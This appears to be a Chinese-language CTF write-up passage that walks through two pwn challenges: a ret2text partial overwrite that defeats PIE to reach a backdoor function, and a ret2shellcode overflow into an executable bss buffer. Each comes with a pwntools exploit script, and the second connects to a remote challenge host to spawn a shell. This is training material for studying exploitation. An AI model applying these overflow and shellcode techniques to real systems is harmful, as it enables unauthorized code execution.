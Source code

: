 ### 极客大挑战2023 ret2text

可以看到开启了PIE保护，导致地址随机化

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701767586-image.png)

在backdoor里发现后门函数

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701767666-image.png)

由于PIE特性，只有最后两个字节会不同，只需要覆盖最后两个字节到backdoor即可，又因为地址是随机化的，只能概率性获得shell

脚本如下👇

```
from pwn import *

io=process("./ret2text")

backdoor=0x1227  #后门地址
payload=b'a'*88+p16(backdoor)  #只需要覆盖两个字节即可
while True:
    io.send(payload)
    io.interactive()
```

## ret2shellcode

### \[HNCTF 2022 Week1\]ret2shellcode

先进行check

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701774967-image.png)

在IDA中看到main函数

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701775037-image.png)

源码中并不存在/bin/sh的地址，不过buff处于bss段是可写的

在read函数的call部分打个断点，用vmmap查看

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701775332-image.png)

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701775341-image.png)

发现地址为0x404000到0x405000的地址段是可读写可执行的

那么就要尝试发送shellcode到buff段，然后溢出到buff的地址（就这道题而言

编写脚本👇

```
from pwn import *
context(log_level = "debug", arch = 'amd64')
io=remote('node5.anna.nssctf.cn', 28167)
buff_addr = 0x4040A0
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x100+8, b'a') + p64(buff_addr)
io.sendline(payload)
io.interactive()
```
